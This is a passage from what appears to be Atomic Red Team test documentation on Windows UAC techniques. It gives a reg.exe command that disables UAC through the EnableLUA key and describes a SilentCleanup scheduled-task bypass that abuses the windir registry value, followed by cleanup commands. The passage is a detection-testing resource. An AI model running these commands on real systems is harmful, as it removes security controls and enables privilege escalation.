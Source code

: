 #### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\Folder" -Recurse -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #8 - Disable UAC using reg.exe
Disable User Account Conrol (UAC) using the builtin tool reg.exe by changing its registry key
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA from 1 to 0

**Supported Platforms:** Windows


**auto_generated_guid:** 9e8af564-53ec-407e-aaa8-3cb20c3af7f9






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```





<br/>
<br/>

## Atomic Test #9 - Bypass UAC using SilentCleanup task
Bypass UAC using SilentCleanup task on Windows 8-10 using bat file from https://www.reddit.com/r/hacking/comments/ajtrws/bypassing_highest_uac_level_windows_810/

There is an auto-elevated task called SilentCleanup located in %windir%\system32\cleanmgr.exe This can be abused to elevate any file with Administrator privileges without prompting UAC (even highest level).

For example, we can set the windir registry kye to: "cmd /k REM "

And forcefully run SilentCleanup task:

schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

